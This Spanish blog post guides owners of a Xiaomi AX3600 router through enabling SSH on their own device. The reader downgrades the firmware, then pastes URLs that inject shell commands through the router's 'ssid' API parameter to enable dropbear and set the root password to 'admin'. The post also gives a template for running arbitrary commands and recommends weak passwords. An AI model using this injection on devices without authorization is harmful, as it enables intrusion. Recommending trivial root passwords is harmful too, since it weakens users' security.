



Xiaomi AX3600 - Activar SSH
===========================

Usaremos un exploit que se encuentra en una versión de firmware antigua para obtener acceso SSH al rúter y modificar a nuestro antojo los archivos de configuración. AX3600 SSH

1 mar. 2021 · 3 min de lectura

Antes que nada hay que agradecer al usuario [LonGDikE 188](https://www.right.com.cn/forum/space-uid-249305.html) de un foro de entusiastas chinos, ya que logro dar con el siguiente exploit para obtener acceso SSH a nuestro rúter.
A modo de tributo a la comunidad hispano hablante he traducido los pasos para activar SSH a nuestro querido idioma.

Lo primero, necesitamos tener el rúter en su versión china, en concreto la 1.0.17 ya que en dicha versión se encuentra el exploit.
La versión 1.0.17 la puedes descargar aquí: [dabm-git/ax3600-files](https://github.com/dabm-git/ax3600-files)

¡Ah! Antes de continuar, no me gusta el anglicismo router, por tanto usare rúter 🤪

* * *

### La versión 1.0.17  

Necesitamos estar en la versión 1.0.17 Y el rúter configurado, es decir con el asistente de configuración inicial terminado, desde la interfaz web de tu rúter puedes subir esta versión, en concreto tenemos que ir **Ajustes**\->**Información**\-> **Subir el fichero de forma manual.**

Una vez subida la versión 1.0.17 el rúter se reiniciará y volverá a la configuración de fabrica con la versión que nos interesa.

Nos conectamos al rúter de nuevo, realizamos la configuración inicial, si, estará en chino... siguiente, siguiente, contraseña WiFi, te recomiendo establecer una contraseña sencilla por ahora, algo del estilo _123456789_ si tienes algún problema con el **Chino**, puedes usar tu móvil y traducir con la aplicación de [Google Translate](https://play.google.com/store/apps/details?id=com.google.android.apps.translate) usando la cámara.

### ¡Al turrón!  

En este punto tendremos la versión citada y podemos empezar a trastear, desde un explorador web nos conectaremos al rúter, generalmente la dirección IP será [192.168.31.1](http://192.168.31.1/) , la contraseña de log-in será la contraseña WiFi que se estableció en la configuración.

Lo que tenemos que hacer una vez iniciada la sesión será fijarnos en el parámetro _**;stok=(clave)**_ de en la barra de búsqueda.

**En mi caso, el valor stok es: _3719ab425433e074d2bd05345f35944a_**

A continuación construiremos el exploit en si, usando los siguientes enlaces, **modifica el parámetro <stok>** con el tuyo e introdúcelos uno por uno la barra de direcciones de tu explorador web.

Si todo ha ido bien, verás {"code":0} en el contenido de la web.

Con este primer enlace conseguiremos que el rúter ejecute: _nvram set ssh\_en=1; nvram commit,_ para **establecer que esta activado el SSH** en la memoria de acceso aleatorio no volátil.

    http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=dabm&ssid=-h%3Bnvram%20set%20ssh%5Fen%3D1%3B%20nvram%20commit%3B

Con el segundo se **activa el servicio de _dropbear_** para acceder via SSH, en concreto ejecuta: _sed -i 's/channel=.\*/channel="debug"/g' /etc/init.d/dropbear_

    http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=dabm&ssid=-h%3Bsed%20-i%20's/channel=.*/channel=%5C%22debug%5C%22/g'%20/etc/init.d/dropbear%3B

Con el tercero se **enciende el servicio SSH**, ejecuta: _/etc/init.d/dropbear start_

    http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=dabm&ssid=-h%3B/etc/init.d/dropbear%20start%3B

¡Enhorabuena! En este punto si todos los códigos han sido 0, tienes activado en tu rúter SSH, ahora bien el usuario será root, pero **¿y cual es la contraseña?.**

Pues vamos a ponerle, _admin_, por qué no :P, ejecuta: _echo -e "admin/nadmin" | passwd root,_ para **establecer una contraseña a root**.

    http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=dabm&ssid=-h%0Aecho%20-e%20%27admin%5Cnadmin%27%20%7C%20passwd%20root%0A
    

Ahora si, ya tenemos activado SSH en nuestro rúter y además el usuario es _**root**_ y la contraseña _**admin**._

Adicionalmente si quieres enviar algún otro comando usando el exploit stok, puedes usar el siguiente enlace (o hacerlo directamente desde la terminal), añadiendo el código que quieras al final, pero ¡ojo!, tiene un marcado de enlaces de explorador...

    http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=dabm&ssid=-h%3B<encoded shell here>%3B

**Si queremos que persista el desbloqueo SSH** con las actualizaciones, por si nos interesa actualizarlo a una versión Internacional, - en el siguiente post -, donde además explico como cambiar la localización del mismo para cumplimentar con las leyes de emisión WiFi (o no) > \[En breve jeje\]

* * *

